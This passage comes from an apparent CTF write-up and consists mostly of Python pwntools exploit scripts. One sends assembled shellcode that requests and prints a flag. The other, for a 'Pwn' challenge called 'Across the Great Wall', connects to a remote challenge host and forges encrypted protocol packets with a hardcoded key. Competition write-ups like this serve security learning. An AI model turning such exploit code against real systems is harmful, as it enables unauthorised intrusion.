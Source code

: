 ```python=
call qword ptr [rax+0x38] # send get flag request 
mov rsp,r15
mov rdi,[rsp]
mov rax,r13
add rax,0x10D00
call rax # put(flag)
'''


pp=asm(payload)
print r.recvuntil("114514")
r.sendline("114514")
r.recvuntil("Your code size:")
r.sendline(str(len(pp)))
r.send(pp)

r.interactive()


```

## Pwn

### Across the Great Wall

```python=
import hashlib
from Crypto.Cipher import AES
import sys
from pwn import *
import os
import socket
host = "54.153.22.136" 
#host = "localhost"

#s = process('../../shadow_server')
s = remote("54.153.22.136",3343)
s.recvuntil("at ")
port = int(s.recvline())
print "localhost",port
r = remote(host,port)

def gen_payload(size,data=""):
    timestamp = time.time()
    noise = os.urandom(8)
    m = hashlib.sha256()
    m.update("meiyoumima")
    m.update(p64(timestamp))
    m.update(noise)
    token = m.digest()[:16]
    payload = token
    m = hashlib.sha256()
    m.update("meiyoumima")
    m.update(token)
    secret = m.digest()
    aes = AES.new(secret[:16], AES.MODE_CBC,secret[16:32])
    payload += aes.encrypt(p64(timestamp)+noise)
    m = hashlib.sha256()
    m.update(token+p64(timestamp)+noise+p8(1)+p32(size)+p8(0)+"a"*10+"\x00"*0x20+data)
    hash_sum = m.digest()
    payload += aes.encrypt(p8(1)+p32(size)+p8(0)+"a"*10+hash_sum+data)
    return payload

```